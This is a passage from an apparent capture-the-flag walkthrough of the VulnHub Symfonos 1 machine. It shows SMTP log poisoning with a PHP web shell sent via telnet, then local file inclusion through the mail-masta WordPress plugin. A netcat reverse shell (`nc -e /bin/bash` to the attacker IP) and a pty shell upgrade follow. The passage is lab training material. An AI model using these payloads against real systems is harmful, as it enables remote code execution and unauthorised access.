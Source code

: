 ```bash
421 4.4.2 symfonos.localdomain Error: timeout exceeded                                                              
Connection closed by foreign host.                
```

- **Telnet**
```bash
telnet 192.168.43.194 25

symfonos.local [192.168.43.165] 25 (smtp) open                                                                      
220 symfonos.localdomain ESMTP Postfix (Debian/GNU)                                                                 
mail from: fyezool                                                                                                  
250 2.1.0 Ok                                                                                                        
rcpt to: helios                                                                                                     
250 2.1.5 Ok                                                                                                        
data                                                                                                                
354 End data with <CR><LF>.<CR><LF>                                                                                 
<?php system($_GET['cmd']); ?> 
```

After this is done, we can use the payload on LFI os command injection. 


Before that, setup netcat on attacker machine so we can receive get the reverse shell for privilege escalation. 

```bash
rlwrap nc -nvlp 4444
```

Then run this on browser
`http:symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&c=nc -e /bin/bash 192.168.43.194 4444`


![aa02889e9eee4d594a2eec9db505d4d7.png](/images/vulnhub/symfonos-1/3155ea584af146d89d15aa26351e63a3.png)

Once we get the reverse shell, we can get fancy bash shell by using this command `python -c 'import pty;pty.spawn("/bin/bash")'`




![3c0f5d7cfa2239edbab1109420cd7d5c.png](/images/vulnhub/symfonos-1/87abd84ca23344f0ad24e6ad5c49645c.png)
Here, we are helios.

## Privilege Escalation
To escalate into root, we can use this command to find useful command. 
